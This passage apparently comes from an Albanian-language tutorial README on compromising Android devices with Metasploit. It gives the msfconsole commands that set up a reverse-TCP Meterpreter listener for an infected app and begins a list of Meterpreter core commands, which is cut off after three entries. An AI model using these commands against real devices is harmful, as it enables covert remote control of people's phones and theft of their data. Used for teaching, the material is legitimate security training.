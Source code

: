 ### Shfrytëzimi i sistemit të targetuar

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Shembulli jonë e përdorë modulin `exploit/multi/handler` duke specifikuar payload, hostin i cili pret kthimin e lidhjes prapa dhe portin në të cilin dëgjohet lidhja. Komanda exploit fillon kërkimin e dobësive dhe në momentin që vendoset lidhja me aplikacionin e infektuar hapet meterpreter dhe nga aty e tutje mund të manipulohet sistemi i targetuar që tani e tutje mund ta quajmë si sistem i kompromentuar.

```
msf6 > use exploit/multi/handler

msf6 > set PAYLOAD android/meterpreter/reverse_tcp

msf6 > set LHOST 192.168.0.12

msf6 > set LPORT 4444

msf6 > exploit
```



<center>
<img width="100%" src="READMEresources/exploit.gif"/>
<figcaption><small><i>Video 4: Përdorimi i modulit <b>exploit</b></i></small></figcaption>
</center>

## Komandat e Meterpreter

### Komandat kryesore

```
Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bg                        Alias for background

```
